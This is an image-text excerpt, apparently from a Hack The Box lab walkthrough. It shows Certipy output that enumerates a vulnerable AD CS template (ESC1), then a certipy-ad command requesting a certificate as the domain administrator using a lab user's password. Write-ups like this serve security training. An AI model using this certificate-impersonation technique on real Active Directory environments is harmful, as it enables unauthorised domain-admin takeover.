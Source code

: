 ```bash
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : SEQUEL.HTB\Administrators
      Access Rights
        ManageCa                        : SEQUEL.HTB\Administrators
                                          SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        ManageCertificates              : SEQUEL.HTB\Administrators
                                          SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        Enroll                          : SEQUEL.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : UserAuthentication
    Display Name                        : UserAuthentication
    Certificate Authorities             : sequel-DC-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : IncludeSymmetricAlgorithms
                                          PublishToDs
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Client Authentication
                                          Secure Email
                                          Encrypting File System
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 10 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Domain Users
                                          SEQUEL.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : SEQUEL.HTB\Administrator
        Write Owner Principals          : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Administrator
        Write Dacl Principals           : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Administrator
        Write Property Principals       : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Administrator
    [!] Vulnerabilities
      ESC1                              : 'SEQUEL.HTB\\Domain Users' can enroll, enrollee supplies subject and template allows client authentication


# Use CA Name and Template Name to make a request
certipy-ad req -u ryan.cooper@sequel.htb -p NuclearMosquito3 -upn administrator@sequel.htb -target 10.10.11.202 -ca sequel-dc-ca -template UserAuthentication

┌──(root㉿kali)-[~/tools/Certipy]
└─# certipy-ad req -u ryan.cooper@sequel.htb -p NuclearMosquito3 -upn administrator@sequel.htb -target 10.10.11.202 -ca sequel-dc-ca -template UserAuthentication

```